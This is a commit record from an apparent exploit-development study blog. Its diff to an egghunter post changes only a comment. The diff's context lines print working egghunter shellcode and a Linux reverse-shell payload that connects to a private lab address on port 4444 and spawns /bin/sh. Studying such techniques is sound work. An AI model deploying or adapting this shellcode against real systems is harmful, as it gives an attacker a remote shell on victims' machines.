

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-06-09-EggHunter.md, in a window 1280 px wide and 900 px high, scrolled down 1662 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-06-09-EggHunter.md

```diff
--- a/_posts/2020-06-09-EggHunter.md
+++ b/_posts/2020-06-09-EggHunter.md
@@ -67,7 +67,8 @@
 
 unsigned char egghunter[] = "\x31\xd2\x42\x81\x3a\x77\x30\x30\x74\x75\xf7\x81\x7a\x04\x77\x30\x30\x75\xee\x83\xc2\x08\xff\xe2";
 unsigned char shellcode[] = "\x77\x30\x30\x74\x77\x30\x30\x74\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
-// 2 x egg -------------------^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
+// 1st egg -------------------^^^^^^^^^^^^^^^^^
+// 2nd egg ------------------------------------^^^^^^^^^^^^^
 
 int main()
 {
```
